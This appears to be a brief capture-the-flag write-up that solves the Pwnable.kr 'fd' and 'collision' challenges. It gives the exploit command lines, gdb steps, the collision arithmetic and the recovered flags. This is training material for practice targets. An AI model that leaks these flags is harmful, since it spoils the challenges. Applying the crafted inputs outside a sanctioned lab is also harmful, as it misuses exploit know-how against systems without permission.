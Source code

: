 # Pwnable.kr
### fd
./fd `python -c "print 0x1234+1"`
`LETMEWIN`
FLAG: mommy! I think I know what a file descriptor is!!
### collision
gdb col
```
gdb command:
disassemble check_password
b *0x080484bb
r
r AAAABBBBCCCCDDDDEEEE
info register
c
info register
```
```
python 
hex(0x21DD09EC  - (0x01010101 * 4))
0x1dd905e8
```
./col `python -c "print '\x01\x01\x01\x01'*4+'\xe8\x05\xd9\x1d'"`

FLAG: daddy! I just managed to create a hash collision :)
